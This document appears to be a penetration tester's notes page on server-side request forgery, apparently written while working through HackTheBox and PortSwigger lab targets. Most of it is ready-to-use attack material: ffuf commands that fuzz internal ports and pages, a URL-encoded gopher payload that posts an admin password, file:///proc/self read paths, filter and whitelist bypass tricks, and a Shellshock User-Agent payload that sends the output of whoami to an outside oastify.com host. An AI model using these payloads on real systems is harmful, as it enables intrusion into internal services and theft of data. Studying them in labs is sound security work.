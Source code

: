 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md

URL validation bypass
https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

Good research:
https://blog.includesecurity.com/2023/03/mitigating-ssrf-in-2023/

```
# cmd used to run app
file:///proc/self/cmdline 

# current dir
file:///proc/self/cwd 
```

##### Fuzz to check open ports:
```bash
ffuf -w ports.txt -u http://10.129.82.103/index.php -X POST -d "dateserver=http://localhost:FUZZ&date=2024-01-01"  -H "Content-Type: application/x-www-form-urlencoded"  -fr 'Failed'
```

##### Fuzz to find available page
```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

##### #Gopher
Send arbitrary bytes to a TCP socket.
Request:
```
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```
URL encode it:
```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```
URL generator:
https://github.com/tarunkant/Gopherus

### Blind SSRF

Burp collaborator replacements:
https://app.requestbin.net/
[Interactsh | Web Client](https://app.interactsh.com/#/)
[Webhook.site - Test, transform and automate Web requests and emails](https://webhook.site/#!/view/295f010b-22b7-4a69-a790-2ed9ff4b8a0e)

#### Prevention
https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html

#### Handling Redirect
DNS wildcard - https://nip.io/

#### dict protocol
```
dict://127.0.0.0.1:1234/
```

#### Blacklist bypass
#encoding
- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.
* Double URL encode
##### Whitelist bypass
* `https://expected-host:fakepassword@evil-host`
* `https://evil-host#expected-host`
* `https://expected-host.evil-host`
* Open redirects
* URL-encode, double URL-encode
Example:
```
stockApi=http%3A%2F%2Flocalhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```
##### Attack surfaces
* Partial URLs in requests
* XML - SSRF via XXE
* Referer

#### Shellshock exploitation
Use #burp Collaborator Everywhere extension to detect vulnerable for SSRF headers.
Payload example:
```http
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).4gl54yveqtl0rtvr3fq0s943jupldf14.oastify.com
```

